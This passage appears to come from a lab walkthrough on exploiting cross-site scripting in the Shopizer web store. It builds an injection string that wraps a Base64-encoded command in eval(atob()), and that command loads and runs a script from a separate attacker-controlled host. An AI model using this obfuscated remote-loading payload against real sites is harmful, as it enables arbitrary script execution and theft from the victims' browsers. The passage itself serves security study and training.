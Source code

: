 <figure><img src="../../../.gitbook/assets/web_xss_shopizer_4.png" alt=""><figcaption><p>Figure 15: Inspecting Shopizer's <code>resources</code> folder.</p></figcaption></figure>

We will first create a test payload file (`xssShopizer.js`) to see if everything works as it should. Because we need to inject our XSS payload directly into the URL, we will also need to encode it. We will use the [`window.btoa()`](https://developer.mozilla.org/en-US/docs/Web/API/Window/btoa) method to Base64 encode the payload, and then use the resulting string within the [`window.atob()`](https://developer.mozilla.org/en-US/docs/Web/API/Window/atob) method in order to decode it (Figure 16).

{% code title="xssShopizer.js" %}
```javascript
alert()
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/web_xss_shopizer_5.png" alt=""><figcaption><p>Figure 16: Base64 encoding and decoding the XSS payload.</p></figcaption></figure>

Finally, in order for our payload to be executed, we will wrap the `atob()` method with the [`eval()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval) method. We also need to make sure to use the required `'` and `+` signs (Figure 17).

{% code overflow="wrap" %}
```javascript
// the final XSS payload
'+eval(atob("alF1ZXJ5LmdldFNjcmlwdCgnaHR0cDovLzE5Mi4xNjguNDUuMjE0L3hzc1Nob3BpemVyLmpzJyk="))+'
```
{% endcode %}
